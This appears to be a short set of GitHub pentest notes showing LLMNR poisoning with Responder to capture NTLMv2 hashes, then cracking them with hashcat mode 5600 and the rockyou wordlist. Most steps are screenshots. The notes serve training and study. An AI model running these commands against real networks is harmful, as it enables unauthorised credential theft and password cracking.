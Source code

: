 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

![llmnr-capture-ntlmv2hash-1](https://github.com/user-attachments/assets/bb5bc126-3932-4d78-bf94-5bdab72f4557)

</br>


![llmnr-capture-ntlmv2hash-2](https://github.com/user-attachments/assets/73eaf2a2-3ceb-4bfb-9e29-abcc2e1235d6)


## Trigger an LLMNR Event

![llmnr-capture-ntlmv2hash-3](https://github.com/user-attachments/assets/5301373a-0bf0-49e8-9830-d2a52a858acc)



![llmnr-capture-ntlmv2hash-4](https://github.com/user-attachments/assets/a75c11b5-bbb6-4470-a9db-da04be7a9f5a)


## Dumping NTLMv2 Hashes
![llmnr-capture-ntlmv2hash-5](https://github.com/user-attachments/assets/d26280ff-4be6-4117-aca5-c3ab9b35f163)


## Save Hash to a file
![llmnr-capture-ntlmv2hash-6](https://github.com/user-attachments/assets/212944c3-ccbc-4aab-aa8f-bd30558ed49f)


## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

![llmnr-capture-ntlmv2hash-7](https://github.com/user-attachments/assets/b686e734-88df-42f8-902f-05836a141529)

## Use John to crack the hash 

![llmnr-capture-ntlmv2hash-8](https://github.com/user-attachments/assets/022ef5f9-a64a-4fec-936f-b5a041849694)
